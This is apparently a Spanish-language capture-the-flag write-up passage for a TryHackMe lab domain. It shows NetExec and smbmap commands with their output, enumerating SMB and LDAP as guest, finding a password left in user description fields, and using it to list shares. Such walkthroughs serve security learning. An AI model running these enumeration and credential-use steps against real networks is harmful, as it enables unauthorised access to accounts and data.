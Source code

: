 ### Herramientas y técnicas
Se utilizó nxc (NetExec) para enumerar SMB y LDAP contra la IP 10.10.120.231 y el dominio thm.local.
Enumeración SMB con credenciales de invitado:
```
nxc smb 10.10.120.231 -u 'guest' -p ''    
SMB         10.10.120.231   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)  
SMB         10.10.120.231   445    LABYRINTH        [+] thm.local\guest:
```
      
Enumeración de usuarios LDAP con credenciales de invitado:
```
nxc ldap 10.10.120.231 -u 'guest' -p '' --users
LDAP        10.10.120.231   389    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 (name:LABYRINTH) (domain:thm.local)
LDAP        10.10.120.231   389    LABYRINTH        [+] thm.local\guest: 
LDAP        10.10.120.231   389    LABYRINTH        [*] Enumerated 487 domain users: thm.local
LDAP        10.10.120.231   389    LABYRINTH        -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.120.231   389    LABYRINTH        Guest                         <never>             0        Tier 1 User                                                 
LDAP        10.10.120.231   389    LABYRINTH        greg                          2023-05-15 10:49:03 0        Tier 1 User
LDAP        10.10.120.231   389    LABYRINTH        IVY_WILLIS                    2023-05-30 08:30:55 0        Please change it: CHANGEME2023!    
LDAP        10.10.120.231   389    LABYRINTH        SUSANNA_MCKNIGHT              2023-05-30 08:30:55 0        Please change it: CHANGEME2023!
```

Se identificó al usuario IVY_WILLIS con una contraseña (CHANGEME2023!) en el campo de descripción. Posteriormente, las acciones se realizan con SUSANNA_MCKNIGHT y la misma contraseña.

Verificación de acceso SMB con las credenciales encontradas:

```
smbmap -H 10.10.120.231 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.10.120.231:445       Name: labyrinth.thm.local       Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
``` 
